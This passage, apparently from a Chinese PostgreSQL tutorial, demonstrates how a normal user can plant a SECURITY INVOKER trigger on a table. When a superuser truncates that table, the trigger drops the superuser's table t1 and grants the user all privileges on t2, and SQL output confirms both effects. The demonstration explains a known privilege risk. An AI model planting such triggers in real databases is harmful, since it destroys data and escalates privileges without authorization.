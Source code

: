 例子：  
  
使用普通用户创建一个表  
  
```  
postgres=# \c postgres digoal  
You are now connected to database "postgres" as user "digoal".  
postgres=> create table temp_table (id int);  
CREATE TABLE  
```  
  
创建一个用于反噬的触发器函数，指定security invoker.  
  
```  
postgres=> create or replace function tg1() returns trigger as $$  
declare  
begin  
  drop table t1 cascade;  --  干掉超级用户的表。删数据库都行。  
  grant all on table t2 to digoal; -- 获得超级用户的表的所有权限。  
  return null;  
end;  
$$ language plpgsql security invoker;  -- security invoker是指调用这个函数时使用调用者的权限，而不是函数owner的权限。  
CREATE FUNCTION  
```  
  
创建触发器  
  
```  
postgres=> create trigger tg2 before truncate on temp_table for each statement execute procedure tg1();  
CREATE TRIGGER  
```  
  
观看反噬效果，一个超级用户去truncate这个临时表。  
  
```  
postgres=> \c postgres postgres  
You are now connected to database "postgres" as user "postgres".  
  
postgres=# truncate temp_table ;  
NOTICE:  00000: drop cascades to rule r1 on table t  
CONTEXT:  SQL statement "drop table t1 cascade"  
PL/pgSQL function tg1() line 4 at SQL statement  
LOCATION:  reportDependentObjects, dependency.c:996  
TRUNCATE TABLE  
```  
  
达到的效果和普通用户在触发器中使用的效果一致。  
  
t2表的权限给了digoal.  
  
```  
postgres=# \dp+ t2  
                              Access privileges  
 Schema | Name | Type  |     Access privileges     | Column access privileges   
--------+------+-------+---------------------------+--------------------------  
 public | t2   | table | postgres=arwdDxt/postgres+|   
        |      |       | digoal=arwdDxt/postgres   |   
(1 row)  
```  
  